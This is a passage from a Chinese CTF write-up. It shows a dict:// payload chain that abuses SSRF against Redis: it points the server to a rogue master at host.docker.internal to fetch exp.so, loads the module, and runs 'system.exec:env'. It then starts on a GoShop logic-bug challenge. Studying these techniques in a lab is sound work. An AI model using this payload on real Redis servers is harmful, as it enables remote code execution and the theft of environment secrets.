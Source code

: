 第二次打完之后, 访问给出的 link 拿到回显

```
http://127.0.0.1:50034/cache.php?id=f56f89a264510e2b3aee8461a9859812
```

![image-20230930163502985](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207909.png)

这里得注意几个点

首先 gopher 得分两次打, 不然你在执行 `slaveof IP Port` 命令之后又立即执行了 `slave of no one`, 这就导致根本没有时间去主从复制 exp.so

其次在使用 gopher 发送 redis 命令的时候记得结尾加上 `quit`, 不然会一直卡住

然后注意 redis 的主机名是 `db`, 而不是 `127.0.0.1`, 因此访问 redis 数据库得用 `db:6379`

如果用 dict 协议打的话, 得调整一下 payload 顺序

```
dict://db:6379/config:set:dir:/tmp
dict://db:6379/config:set:dbfilename:exp.so
dict://db:6379/slaveof:host.docker.internal:21000
dict://db:6379/module:load:/tmp/exp.so
dict://db:6379/slave:no:one
dict://db:6379/system.exec:env
dict://db:6379/module:unload:system
```

因为每次执行命令之间会存在一定的时间间隔, 所以得先设置 dir 和 dbfilename, 然后再 slaveof, 不然最终同步的文件名和路径还是原来的 `/data/dump.rdb`

### GoShop

题目是一个商店, 初始 money 为 100, 需要购买金额为 999999999 的 flag 商品后才能拿到 flag

往 number 里面填负数或者小数这种思路都是不行的, 需要仔细看代码的逻辑

BuyHandler

```go
func BuyHandler(c *gin.Context) {
	s := sessions.Default(c)
	user := users[s.Get("id").(string)]

	data := make(map[string]interface{})
	c.ShouldBindJSON(&data)

	var product *Product

	for _, v := range products {
		if data["name"] == v.Name {
			product = v
			break
		}
	}

	if product == nil {
		c.JSON(200, gin.H{
			"message": "No such product",
		})
		return
	}

	n, _ := strconv.Atoi(data["num"].(string))

	if n < 0 {
		c.JSON(200, gin.H{
			"message": "Product num can't be negative",
		})
		return
	}
```
